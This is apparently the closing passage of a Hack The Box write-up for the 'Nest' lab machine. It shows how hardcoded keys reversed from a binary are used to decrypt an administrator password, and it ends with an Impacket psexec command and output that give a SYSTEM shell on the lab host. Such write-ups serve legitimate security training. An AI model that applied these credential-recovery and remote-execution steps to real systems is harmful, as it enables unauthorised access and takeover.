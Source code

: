 Specifically, we are interested in the decryption function.

`CR.RD(EncryptedString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256);`

### Password Decryption

Now, let's re-use the VB code used for the first decryption. We just need to replace the parameters according to the function we reversed from HqkLdap.exe.

In **Utils.vb**, replace:

`Return Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)`

with:

`Return Decrypt(EncryptedString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256)`

In **Program.vb**, replace:

`Dim Password = Utils.DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")`

with:

`Dim Password = Utils.DecryptString("yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=")`

Run the program again and you'll find the decrypted password.

* XtH4nkS4Pl4y1nGX

## Getting A Root Shell

With the decrypted password, let's get a system shell with Impacket's psexec.

```
root@kali:~/htb/nest# ./psexec.py Administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.178.....
<SNIP>
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
## Ending Thoughts

This box is fun. In particular, it's a great box to practise about SMB enumeration.

* The passwords used are strong. If the passwords were hashed, we might not have such an easy time. [Good read on hashing versus encrypting passwords.](https://www.darkreading.com/safely-storing-user-passwords-hashing-vs-encrypting/a/d-id/1269374)